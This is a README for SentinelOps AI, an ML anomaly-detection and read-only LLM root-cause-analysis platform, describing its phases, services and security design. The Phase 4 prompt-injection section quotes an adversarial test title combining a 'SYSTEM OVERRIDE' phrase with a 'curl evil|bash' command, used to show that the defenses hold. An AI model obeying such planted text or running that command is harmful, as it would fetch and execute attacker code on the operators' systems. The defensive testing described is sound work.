

# SentinelOps AI

> **Current status: Phase 4 — AI RCA / investigation agent.**
> Phases 0–4 are implemented and tested (see [Current status](#current-status)).
> Phases 5–8 under [Planned architecture](#planned-architecture) and
> [Technology roadmap](#technology-roadmap) are future work and are labelled as such.

## What it is

SentinelOps AI is an ML-powered, cloud-native **incident intelligence platform**.
It observes distributed application telemetry, detects abnormal behaviour with
machine-learning models, correlates the abnormal signals into incidents, and then
uses a tool-using AI agent to investigate each incident and produce an
evidence-backed root-cause analysis with a remediation **recommendation that a
human must approve** — the agent never changes a running system itself.

Every step is deliberately bounded: the ML model is offline-trained and
deterministic at inference, correlation is a rule engine with **no LLM**, and the
investigation agent works only through a fixed set of **read-only** evidence
tools with a deterministic validation gate on its output. The LLM proposes;
deterministic code decides.

## Problem

When a distributed system misbehaves, on-call engineers are handed a wall of
dashboards, logs, traces, and alerts and must manually reconstruct *what broke*,
*why*, and *what to do about it* — under time pressure. This is slow, error
prone, and hard to audit. Static threshold alerts are noisy, and the knowledge
of how to investigate lives in a few people's heads.

SentinelOps AI aims to compress the "signal → incident → root cause →
safe remediation" loop while keeping a human firmly in control of any action
that changes the running system.

## Core idea

The end-to-end loop, phase by phase:

```
Telemetry (OpenTelemetry)                         [Phase 1]
   ↓
Anomaly detection (Isolation Forest, ML)          [Phase 2]  →  anomaly.detected
   ↓
Incident correlation (deterministic rules, no LLM)[Phase 3]  →  incident.opened
   ↓
RCA agent  ── consumes incident.opened ──         [Phase 4]
   ↓
Controlled read-only evidence tools               [Phase 4]  (incident / anomaly /
   ↓                                                          timeline / metrics / health)
LangGraph investigation (plan → collect →         [Phase 4]
   analyze → verify → synthesize → validate)
   ↓
Evidence-backed RCA report (schema-validated)     [Phase 4]
   ↓
Human-approved remediation recommendation         [Phase 5, planned]
   ↓
Recovery verification + audit trail               [Phase 5+, planned]
```

Two responsibilities are kept **separate on purpose** — an LLM API call is *not*
the ML component ([ADR-002](docs/decisions/adr-002-ml-and-llm-separation.md)):

- **Machine learning** detects anomalies in telemetry whose feature space matches
  the live system. It is offline-trained and deterministic at inference.
- **The AI agent** investigates an already-detected, already-correlated incident,
  reasons over evidence it collected through read-only tools, and *proposes* a
  root cause and a remediation category. It never detects, never correlates, and
  never executes.

## Planned architecture

> Target design. **Phases 0–4 exist and are tested** (the Kafka backbone,
> `orders-service`, live anomaly detection, incident correlation + PostgreSQL,
> and the LangGraph RCA agent with its Investigation API). Policy validation,
> human-approval workflow, action execution, recovery verification, and the
> observability stack are future work. See [Current status](#current-status).



## Technology roadmap

Introduced **only in the phase that needs it**, never earlier:

| Area | Direction |
| --- | --- |
| Backend | Python, FastAPI |
| ML | scikit-learn, XGBoost, pandas, NumPy, MLflow (model aliases, not stages); PyTorch only if justified |
| AI agent | LangGraph (or an equivalent explicit state-machine agent), an LLM API, tool calling |
| Data | PostgreSQL; Redis where justified |
| Messaging | Apache Kafka (event backbone) |
| Observability | OpenTelemetry, Prometheus, Loki, Tempo, Grafana (Alloy/OTel collection, not Promtail) |
| Datasets | HDFS, BGL, NAB for offline experimentation/evaluation — evaluated **separately** from live synthetic telemetry ([ADR-004](docs/decisions/adr-004-datasets-vs-live-telemetry.md)) |
| Containers | Docker, Docker Compose |
| Orchestration | Kubernetes |
| Cloud | AWS |
| IaC | Terraform |
| CI/CD | GitHub Actions |
| Frontend | React / Next.js (or another justified modern choice) |
| Testing | pytest, integration tests, later load testing |

## Project phases

| Phase | Focus | State |
| --- | --- | --- |
| **0** | Repository & development foundation | **done** |
| **1** | Event backbone (Kafka) + a first instrumented service emitting telemetry | **done** |
| **2** | ML anomaly-detection pipeline + offline evaluation (real metrics) | **done** |
| **3** | Incident correlation + persistence (deterministic rules, PostgreSQL, Incident API) | **done** |
| **4** | AI RCA agent — LangGraph investigation, controlled read-only evidence tools, mock/live LLM boundary, Investigation API | **done** |
| 5 | Human-approved, allow-listed remediation + recovery verification + audit | planned |
| 6 | MLOps lifecycle: MLflow, model monitoring, drift detection, retraining | planned |
| 7 | Observability stack (OpenTelemetry, Prometheus, Loki, Tempo, Grafana) | planned |
| 8 | Kubernetes, cloud (AWS), Terraform, hardened CI/CD | planned |

The roadmap is a direction, not a contract; later phases may re-scope earlier
ones. See [docs/phases/roadmap.md](docs/phases/roadmap.md).

## Development

> Every command below works today. Prerequisites: Python 3.12+ (dev machine
> uses 3.14), Git, Docker Desktop (Kafka + PostgreSQL).

```bash
# 1. Virtual environment + dependencies
python -m venv .venv
source .venv/Scripts/activate      # Windows Git Bash;  .venv/bin/activate on Unix
pip install -e ".[dev,ml,incident,detector,rca]"
cp .env.example .env

# 2. The full pipeline (Phases 1 + 3 + 4): Kafka, PostgreSQL, orders-service,
#    anomaly-detector, incident-correlator, rca-agent (+ two one-shot migrations)
docker compose up --build -d
python scripts/generate_traffic.py --scenario sequence --duration 40 --rate 6
curl -s http://localhost:8002/incidents | python -m json.tool            # the correlated incident
INC=$(curl -s http://localhost:8002/incidents | python -c "import sys,json;print(json.load(sys.stdin)[0]['id'])")
curl -s "http://localhost:8004/incidents/$INC/investigation" | python -m json.tool  # the RCA the agent produced

# 3. Deterministic demos — no Kafka, no DB, no LLM API key
make incident-scenario     # Phase 3: anomalies -> ONE incident
make rca-scenario          # Phase 4: one incident -> investigation -> validated RCA
make rca-e2e-scenario      # Phase 4: incident.opened envelope -> consumer -> RCA -> API

# 4. Phase 2 ML: reproduce every experiment on the committed datasets
make ml-experiments        # -> artifacts/reports/ + summary.md
```

`rca-agent` (`:8004`) defaults to `RCA_MODE=mock` — the whole chain runs with
**no LLM API key**. For a real provider: `RCA_MODE=live LLM_PROVIDER=anthropic
LLM_API_KEY=sk-ant-... docker compose up rca-agent` (the key is read from your
shell, never committed).

With `make` (Git Bash): `make install`, `make compose-up`, `make db-migrate`,
`make db-migrate-rca`, `make run-correlator`, `make run-rca`, `make ml-experiments`,
`make check`. Full instructions incl. PowerShell in
[docs/development/setup.md](docs/development/setup.md).

## Testing

```bash
pytest                                                    # all unit tests — or: make test
make ml-test                                               # just the ML suite
pytest tests/rca_agent -q                                  # just the RCA-agent suite
docker compose up -d kafka postgres && make db-migrate && make db-migrate-rca && \
  make test-integration                                   # real Kafka + PostgreSQL integration tests
```

Tests live in [tests/](tests/): platform API smoke tests,
[tests/orders_service/](tests/orders_service/) (order validation, event schema,
publisher, failure injection, instrumentation, a Kafka round-trip),
[tests/ml/](tests/ml/) (parsing, feature causality & no-leakage, splits,
detectors, inference, metrics, an experiment repro check),
[tests/incident_correlator/](tests/incident_correlator/) (correlation, severity,
state machine, SQL repository, a Kafka→Postgres integration test), and
[tests/rca_agent/](tests/rca_agent/) (tool registry & bounds, the LangGraph
engine, mock + Anthropic LLM boundary, prompt-injection defenses, the Kafka
consumer & idempotency, the Investigation API, an outcome-class RCA harness, and
a real Kafka+Postgres end-to-end test).

## Environment variables

`.env.example` is the documented template of every supported variable, grouped by
prefix (`APP_`, `KAFKA_`, `DB_`, `DETECTOR_`, `RCA_`, `LLM_`, …). Copy it to
`.env` (git-ignored) for local development. Every service reads its config through
a typed `pydantic-settings` object — no code reads `os.environ` directly, and
`LLM_API_KEY` is a `SecretStr` that is never logged or serialised.

## Security principles

- **No secrets in Git.** `.env` is ignored; only `.env.example` (placeholders) is
  committed. `LLM_API_KEY` is read from the environment at runtime, held as a
  `SecretStr`, and passed only to the provider SDK.
- **Least privilege.** Containers run as a non-root user.
- **Controlled tools.** The RCA agent obtains **all** evidence through a fixed,
  closed registry of **read-only** tools — it cannot add a tool, name a new one,
  issue an arbitrary HTTP/SQL/shell call, or point a tool at an arbitrary host
  ([ADR-020](docs/decisions/adr-020-controlled-read-only-evidence-tools.md)).
- **The LLM is not authoritative.** It proposes plans, findings, and a synthesis;
  deterministic code owns the tool allow-list, argument validation, resource
  limits, evidence ids, state transitions, and a `validate_report` gate on the
  output. Evidence (incident text, telemetry, tool output) is treated as **data,
  never instructions** — prompt-injection payloads inside it are quarantined and
  change nothing ([ADR-021](docs/decisions/adr-021-llm-boundary-and-injection-defense.md)).
- **Human approval for remediation.** Phase 4 produces only a structured
  *recommendation* (`requires_human_approval = true`, a closed action-category
  enum, **no executor anywhere**). No automated change to a running system
  ([ADR-003](docs/decisions/adr-003-human-in-the-loop-remediation.md)).
- **No hidden reasoning persisted.** The operational trace records concise
  actions and results, never private model chain-of-thought.

## Current status

### Phase 0 — Repository & Development Foundation *(done)*

Repo structure and docs (README, architecture overview, ADRs, setup, roadmap);
`pyproject.toml`; the platform API skeleton (`apps/api/sentinelops_api`) with
`GET /health` and `GET /`; Ruff + mypy (strict) + pytest; `Makefile`,
`Dockerfile`, `docker-compose.yml`, `.env.example`, GitHub Actions CI.

### Phase 1 — Event backbone + first instrumented service *(done)*

- **Kafka event backbone** — single-node KRaft broker in Docker Compose; topic
  `orders.events`; a versioned `order.created` event envelope
  ([docs/architecture/events.md](docs/architecture/events.md),
  [ADR-006](docs/decisions/adr-006-kafka-local-deployment-and-client.md)).
- **`orders-service`** (`apps/orders-service`) — a demo app under observation:
  `POST /orders` creates an order and synchronously publishes its event
  ([ADR-010](docs/decisions/adr-010-phase1-synchronous-publish.md)); also
  `GET /orders/{id}`, `/health`, `/ready`, `/metrics`.
- **OpenTelemetry instrumentation** — HTTP + business spans; Prometheus-scraped
  metrics (with a deliberate low-cardinality label policy); structured JSON logs
  carrying `trace_id`/`span_id`
  ([ADR-007](docs/decisions/adr-007-opentelemetry-instrumentation-standard.md),
  [ADR-008](docs/decisions/adr-008-events-vs-telemetry.md)).
- **Trace correlation into events** — `traceparent` injected into Kafka headers;
  a demo consumer continues the trace.
- **Controlled failure injection** (dev-only, disabled by default,
  [ADR-009](docs/decisions/adr-009-controlled-failure-injection.md)) + a
  **traffic generator** for reproducible telemetry scenarios
  ([docs/development/telemetry-scenarios.md](docs/development/telemetry-scenarios.md)).

Details: [docs/architecture/phase-1.md](docs/architecture/phase-1.md).

### Phase 2 — ML anomaly detection + offline evaluation *(done)*

The `ml/` subsystem — an offline training/evaluation pipeline. Phase 3's
`anomaly-detector` service wraps the trained model in a live
scrape → score → publish loop.

- **Track A dataset** — built by scraping `orders-service` `/metrics` every 10 s
  under a seeded sequence of fault scenarios; counter deltas → per-window rate
  signals; ground-truth labels kept separate; boundary/reset windows dropped
  ([ADR-011](docs/decisions/adr-011-ml-dataset-via-metrics-scraping.md)). Two
  canonical runs committed as small CSVs.
- **Feature engineering** — 23 causal features (rates, latency percentiles,
  rolling mean/std, deltas, growth rate); *one* implementation shared by
  training and streaming inference, with a test that they agree row-for-row and
  a test that no injected-fault ground truth leaks in.
- **Leak-safe splits** — chronological train/val/test, plus a held-out-fault
  split (train on latency+error faults, test on publish-failure+surge).
- **Detectors** — robust median/MAD z-score **baseline**; **Isolation Forest**
  primary ([ADR-012](docs/decisions/adr-012-isolation-forest-primary-detector.md));
  supervised Random Forest comparator. Shared `fit / score / predict / save /
  load` interface.
- **Evaluation** — window-wise precision/recall/F1/FPR/FNR/PR-AUC/confusion plus
  event-wise detection delay and false-alarms-per-hour.
- **Experiments 1-6** — baseline, IF, three-way comparison, held-out fault, and
  the same methodology on the independent **NAB** benchmark (downloaded, not
  committed — [ADR-013](docs/decisions/adr-013-nab-benchmark-track.md)). Results
  in `artifacts/reports/`.
- **Phase 3 boundary** — `ml.inference.DetectorService.score_window(signals) →
  AnomalyResult`.

Details + all measured numbers: [docs/architecture/phase-2.md](docs/architecture/phase-2.md).

### Phase 3 — Incident correlation + persistence *(done)*

- **`libs/sentinelops_common/`** — shared plumbing extracted from `orders_service`:
  the Kafka event envelope + versioned payload contracts, JSON logging + OpenTelemetry
  setup, a JSON producer, and an idempotent consumer.
- **`anomaly-detector`** (`services/anomaly-detector`) — the Phase 2 → 3 handoff.
  Scrapes `orders-service` `/metrics` every 10 s, rebuilds each telemetry window
  with the Phase 2 code, scores it with the Isolation Forest model (trained once
  at startup from committed data, fixed seed), and publishes `anomaly.detected`.
- **`incident-correlator`** (`services/incident-correlator`) — consumes
  `anomaly.detected` and groups related anomalies for a service into one
  **incident** with **deterministic, explainable** rules: a correlation key
  (`service:environment`) plus a configurable time window — **no LLM**
  ([ADR-015](docs/decisions/adr-015-deterministic-anomaly-correlation.md)).
  Severity is a deterministic rule engine (INFO…CRITICAL), every firing rule
  recorded.
- **PostgreSQL** (SQLAlchemy 2.0 async + Alembic —
  [ADR-014](docs/decisions/adr-014-postgresql-for-incident-state.md)) — incidents,
  evidence, and an append-only state-transition history. A partial unique index
  enforces one active incident per key; `event_id` uniqueness makes replays
  idempotent. Offset committed only after the DB transaction
  ([ADR-016](docs/decisions/adr-016-idempotent-kafka-consumer.md)); poison
  messages go to `anomaly.events.dlq`.
- **Incident API** (`:8002`, internal) — list/detail/evidence/history with
  filters, plus acknowledge / resolve / transition against an explicit state
  machine ([ADR-017](docs/decisions/adr-017-incident-state-machine.md)).
  `incident.*` lifecycle events are published for Phase 4.

Details: [docs/architecture/phase-3.md](docs/architecture/phase-3.md) ·
[docs/architecture/incident-model.md](docs/architecture/incident-model.md).

### Phase 4 — AI RCA / investigation agent *(done)*

- **`rca-agent`** (`services/rca-agent`, `:8004`) — a separate service (it
  depends on an external LLM API and must not share a failure domain with
  correlation — [ADR-019](docs/decisions/adr-019-rca-agent-service-and-boundary.md)).
  It consumes `incident.opened` from Kafka and, per incident, runs one bounded
  investigation. It reads incidents through the Phase 3 **Incident API over
  HTTP**, never that service's database, and owns its own PostgreSQL tables with
  a separate Alembic lineage (`alembic_version_rca`).
- **Controlled read-only evidence tools** — a fixed, closed registry:
  `get_incident`, `get_incident_timeline`, `get_anomaly_evidence`,
  `get_related_incidents`, `get_service_metrics`, `get_service_health`. Logs,
  traces, deployments, and dependency graphs are registered but explicitly
  **UNAVAILABLE** — surfaced honestly in the report, never fabricated. Every tool
  has a frozen `extra="forbid"` request model (incident-id regex, service
  allow-list, `limit ≤ 50`, …) validated before any I/O, and returns a structured
  result — never an exception, never a stack trace, no URL/host/credential in an
  error ([ADR-020](docs/decisions/adr-020-controlled-read-only-evidence-tools.md)).
- **LangGraph investigation engine** — an explicit state machine:
  `initialize → plan → collect ⟲ → analyze → verify → synthesize → validate`.
  The LLM proposes each step; deterministic code validates plans against the
  registry, id-stamps evidence, enforces resource limits (≤ 12 tool calls, ≤ 40
  evidence items, ≤ 120 s), and runs `validate_report` before anything is
  persisted. A count-limit breach degrades gracefully; the validate node always
  runs.
- **Mock / live LLM boundary** — one `LlmClient` protocol with four typed
  operations. `RCA_MODE=mock` (default, CI) is a deterministic, network-free
  reasoner that drives the *real* graph with no API key. `RCA_MODE=live` +
  `LLM_PROVIDER=anthropic` uses `AnthropicLlmClient` — forced-tool-use structured
  output parsed into the existing Pydantic DTOs, bounded timeout / prompt size /
  retries, `LLM_API_KEY` as a `SecretStr`. `build_llm_client` never silently
  falls back to mock ([ADR-022](docs/decisions/adr-022-live-llm-provider.md)).
- **Prompt-injection defense** — a fixed message architecture (`SYSTEM` policy →
  `SYSTEM` tool catalogue → `USER` task + a delimited `BEGIN/END UNTRUSTED
  EVIDENCE` block). Evidence is never placed in a system message. The structural
  guarantees (closed registry, closed action enum, evidence-reference validation,
  no executor) hold regardless of what the model does — adversarial tests confirm
  a `"SYSTEM OVERRIDE … register a tool … curl evil|bash"` incident title changes
  nothing ([ADR-021](docs/decisions/adr-021-llm-boundary-and-injection-defense.md)).
- **Kafka consumer + idempotency** — `incident.opened` is emitted once per
  incident, so a redelivery is a duplicate: the consumer skips if any
  investigation already exists, and the "one active investigation per incident"
  partial unique index is the concurrent-race backstop. Malformed events go to
  `incident.events.dlq` ([ADR-023](docs/decisions/adr-023-rca-agent-integration.md)).
- **Investigation API** — `POST /investigations` (`202` + a PENDING
  investigation; the bounded graph runs on a background task with no DB
  transaction held across it), `GET /investigations/{id}` and `/steps`,
  `GET /incidents/{id}/investigation`, plus `/health` · `/ready` · `/metrics`.
  The API exposes the structured operational trace, never hidden reasoning.
- **`RCAReport`** — strongly typed and machine-validatable: `summary`,
  `timeline`, `findings`, `hypotheses`, nullable `root_cause`, `contributing_factors`,
  `recommended_action`, `evidence`, `overall_confidence`, `uncertainty`,
  `unavailable_evidence_sources`. `recommended_action.action_type` is a **closed
  enum** of recommendation categories and `requires_human_approval` is
  `Literal[True]` — there is no command field and no executor. Phase 5 owns
  execution ([ADR-003](docs/decisions/adr-003-human-in-the-loop-remediation.md)).
- **Docker Compose** — `docker compose up --build` adds `rca-migrate` (one-shot)
  and `rca-agent`. `RCA_MODE=mock` is the default: the whole chain runs with no
  API key. Deterministic demos: `make rca-scenario`, `make rca-e2e-scenario`.

Details: [docs/architecture/phase-4.md](docs/architecture/phase-4.md).

**Not implemented** (later phases): remediation policy validation, the
human-approval workflow, an allow-listed **action executor**, and recovery
verification (Phase 5); MLflow / model registry / drift detection (Phase 6); a
deployed observability stack — Prometheus / Loki / Tempo / Grafana / an OTel
collector (Phase 7); Kubernetes, AWS, Terraform, hardened CI/CD (Phase 8);
authentication; cross-service / topology-aware correlation.
